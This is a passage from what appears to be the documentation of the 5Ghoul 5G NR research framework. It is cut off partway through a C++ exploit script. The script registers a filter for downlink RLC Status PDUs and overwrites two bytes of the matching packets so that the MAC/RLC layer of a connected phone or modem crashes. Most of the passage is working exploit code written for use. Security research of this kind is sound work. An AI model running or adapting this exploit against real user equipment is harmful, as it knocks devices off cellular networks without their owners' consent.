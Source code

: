     ```c++
    int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
    {
        // Test if downlink packet matches filter f1, previously registered in rx_pre_dissection
        if (wd_read_filter(ctx->wd, f1))
        {
            printf("Packet filter matched here, let's mutate it!!!!\n");
            wd_log_y("Malformed MAC data sent!"); // Same as printf, but uses internal API to log messages
            pkt_buf[60 - 48] = 0xB5; // Modify raw packet at offset 12
            pkt_buf[61 - 48] = 0x02; // Modify raw packet at offset 13
            return 1;
        }
        return 0;
    }
    ```

### 4.2. Example (MAC/RLC Crash C++ Script)

A full 5Ghoul Exploit script example is provided below. The sample script below ([mac\_sch\_mac\_rlc\_crash.cpp](modules/exploits/5gnr\_gnb/mac\_sch\_mac\_rlc\_crash.cpp)) only defines callback functions to analyze downlink ( `tx_pre_dissection`, `tx_post_dissection`) since we curently focus on changing bytes of the downlink packets to launch an attack. However, if you want to create a script that analyses the response of the UE, using the uplink callbacks (`rx_pre_dissectoin` and `rx_post_dissection`) is greatly helpful.

```c++
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

const char *module_name()
{
    return "ANY NAME";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;
    ctx->config->fuzzing.enable_mutation = false;
    // Declare filters
    f1 = wd_filter("rlc-nr.am.dc == 0"); // Filter to find RLC Status PDU
    return 0;
}

// ---------------- Packet Handler for Downlink (TX) from gNB to UE ----------------
// Handler is called before packet decoding. You can register decoding filters here
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters. This needs to always be done before packet decoding
    wd_register_filter(ctx->wd, f1);
    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed MAC data sent!");
        pkt_buf[60 - 48] = 0xB5; // Modify raw packet at offset 12
        pkt_buf[61 - 48] = 0x02; // Modify raw packet at offset 13
        return 1; // Indicate that the packet payload has been mutated (i.e., changed from the original)
```